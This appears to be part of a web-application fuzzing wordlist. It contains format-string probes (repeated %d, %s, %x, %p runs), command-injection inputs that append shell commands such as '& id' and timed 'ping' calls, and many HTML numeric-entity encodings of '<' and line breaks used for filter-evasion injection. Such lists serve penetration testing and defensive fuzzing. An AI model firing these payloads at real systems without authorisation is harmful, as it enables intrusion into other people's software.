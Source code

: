 %d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d 
%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e%e
%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f%f
%ff
%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g%g
%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i%i
%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o%o
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
%s%p%x%d
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u%u
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
&
& id
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
&#0000060
&#0000060;
&#000060
&#000060;
&#00060
&#00060;
&#0060
&#0060;
&#060
&#060;
&#10;
&#10;&#13;
&#13;
&#13;&#10;
&#60
&#60;
&#X000003C
&#X000003C;
&#X000003c
&#X000003c;
&#X00003C
&#X00003C;
&#X00003c
&#X00003c;
&#X0003C
&#X0003C;
&#X0003c
&#X0003c;
&#X003C
&#X003C;
&#X003c
&#X003c;
&#X03C
&#X03C;
&#X03c
&#X03c;
&#X3C
&#X3C;